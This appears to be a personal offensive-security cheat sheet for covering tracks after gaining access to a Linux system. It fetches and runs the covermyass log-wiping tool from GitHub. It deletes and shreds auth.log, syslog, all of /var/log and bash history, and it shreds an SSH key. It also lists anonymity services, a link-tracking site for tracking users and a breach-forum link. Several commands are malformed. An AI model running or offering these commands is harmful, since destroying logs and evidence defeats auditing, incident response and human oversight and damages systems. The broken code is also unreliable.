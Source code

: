 ## NMAP SCRIPT LOCATION 
ls -al /usr/share/nmap/scripts/ 

## CANARY TOKENS
canarytokens.com/generate 

### LOGS ##### 
```exits the terminal without saving history ```
kill -9 $$ 
wget https://raw.githubusercontent.com/sundowndev/covermyass/master/covermyass
chmod +x covermyass
./covermyass
# BASH HISTORY 
cd /dev/shm/
rm /root/.bash_history 
## or edit the var $HISTSIZE and $HISTFILESIZE 
# AUTH-LOG FILES 
cd /var/log
sudo rm auth.log 
shred -zu /var/log/auth.log ## safely overwrite logs with 0's and 1's 
truncate -s 0 /var/log/auth.log 

------------------------------------------------------ SHRED SESSION & TERMINAL  LOGS --------------------------------------------

function _removeSSHLogs() {
	sudo find _sshMSG -type f -exec shred -n 10 {} \ && sudo find /var/log/syslog -type f -exec shred -n 10 {} \;
	sudo find ~/.ssh/github_rsa.pub -type f -exec shred -n 10 {}
}
function _removeAllLogs() {
	echo "[!] Removing Logs.. \n\t Old Logs\n $(lastlog)"
	sudo find *.log -type f -exec shred -n 10 {} \ && sudo find /var/log -type f -exec shred -n 10 {} # for logs
	cat /dev/null > ~/.bash_history && history -c && exit ## to remove history
	sudo grep -r *.log _sysLogs | sudo rm sysLogs ## just in case #1 doesnt wrok
	rm /root/.bash_history
	dmesg | less && _checkLogs
	sudo covermyass now 
}

function _checkLogs() { cat ./bash_history }

------------------------------------------------------ STAY ANONYMOUS ------------------------------------------------------
macchanger -r [channges mac to a random number] 
i2prouter start [#### IP2ROUTER --> File sharing / hosting ]
tor + proxy 
vpn (most cant be trusted) 
https://inteltechniques.com/ [THrow away emails]
tempmailer.de 
https://api.wigle.net/ [excellent gps and realtime tracking tool] 
shodan.io ## --> d[simular to wiggle, but contains open streams and devices] 
https://null-byte.wonderhowto.com/how-to/wardrive-android-phone-map-vulnerable-networks-0176136/

grabify.link  ## --> track usersr 
https://nvd.nist.gov/developers/vulnerabilities
https://www.exploit-db.com/
securityfocus.com
https://sur.ly/i/breachforums.com/
namecheckup.com ## --> osnit 
https://neatnik.net/steganographr/ --> stenography (*to hide tracks) 
```